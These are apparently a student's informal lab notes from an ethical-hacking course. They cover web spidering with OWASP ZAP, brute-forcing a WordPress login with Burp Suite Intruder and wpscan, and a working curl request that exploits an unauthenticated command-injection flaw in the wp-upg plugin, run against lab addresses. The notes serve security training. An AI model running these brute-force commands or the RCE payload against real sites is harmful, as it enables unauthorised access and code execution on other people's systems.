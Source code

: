 ## Task 2: Perform Web Spidering using OWASP ZAP
- In terminal type ``zaproxy``
	- click on automated Scan and attack
	- see the active scan 
	- see the spider tab  for information


## Task 3: Perform Web Application Vulnerability Scanning using SmartScanner
- open windows 11 and lunch SmartScanner 
	- see the report 
# Lab 2: Perform Web Application Attacks
## Task 1: Perform a Brute-force Attack using Burp Suite
- make sure it enables ``wampserver64``
- open parrot 
1. enable proxy in browser as ``127.0.0.1`` and make sure turn on interceptor 
2. open browser and go ``http://10.10.1.22:8080/CEH/Wp-login.php?``
	- login as ``admin:password``  
3. go under history and look for contains as admin and password 
	- send it intruder 
	- and select the admin and password and add 5 
4. select cluster bomb attack 
	-  under payloads add payload set 1 and set 2 
	- add from desktop/webapplication/wordlist/user and password 
	- start attack 
	- you will get ``admin:qwert@123``
- or using word press ( fastest way )
	- wpscan
1. Brute-Force word press 
	- ``wpscan --url http://TARGET-IP/wordpress/ --usernames admin --passwords /usr/share/wordlists/rockyou.txt ``
	- ``wpscan --url http://www.cehorg. com:8080/CEH/wp-login? --usernames adam --passwords password. txt``
## Task 2: Perform Remote Code Execution (RCE) Attack
- so open windows 22 server and turn on wampserver64
1. login ti wordpress  ``http://10.10.1.22:8080/CEH/wp-login.php?``
	- using  ``admin`` and ``qwerty@123``
2. go to plugins -> installed plugins  -> User post Gallery 
3. open parrot 
	-   go to ``https://wpscan.com/`` and login as admin 
	- click the **Get Started**
	- 1. click **Start for free** button under **Researcher** section.
	- and get API tokens 
4. do word press scan using 
	- command 
		- ``wpscan --url http://10.10.1.22:8080/CEH --api-token [API]`` (make sure you set it active)
	-   In the **Plugin(s) Identified** section, within the context of the **wp-upg** plugin, an **Unauthenticated Remote Code Execution (RCE)** vulnerability has been detected
5. exploiting the **RCE** vulnerability present in the **wp-upg** plugin.
	-  `` curl -i 'http://10.10.1.22:8080/CEH/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:whoami:NULL:NULL' ``
		- plugin name wp-upg

